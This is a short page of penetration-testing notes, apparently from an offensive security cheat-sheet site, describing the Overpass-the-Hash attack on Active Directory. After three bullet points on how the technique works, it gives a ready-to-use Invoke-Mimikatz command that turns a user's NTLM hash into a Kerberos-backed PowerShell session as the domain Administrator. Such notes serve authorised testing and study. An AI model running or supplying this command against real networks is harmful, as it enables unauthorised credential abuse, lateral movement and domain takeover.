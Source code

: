 ```yaml
---
title: "Overpass-the-Hash"
description: "Overpass-the-Hash attack."
lead: "How to perform Overpass-the-Hash using Mimikatz."
date: 2021-11-06T11:53:35+01:00
lastmod: 2021-11-06T11:53:35+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "lateral_movement"
weight: 40
toc: true
---
```


## General

- Similar to pass-the-hash
- Creates valid kerberos ticket from NTLM hash of user
- Able to access any domain service and not just services that support NTLM authentication like in PTH attacks

## Exploitation with Invoke-Mimikatz

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:lab.local /ntlm:<HASH> /run:powershell.exe"'
```
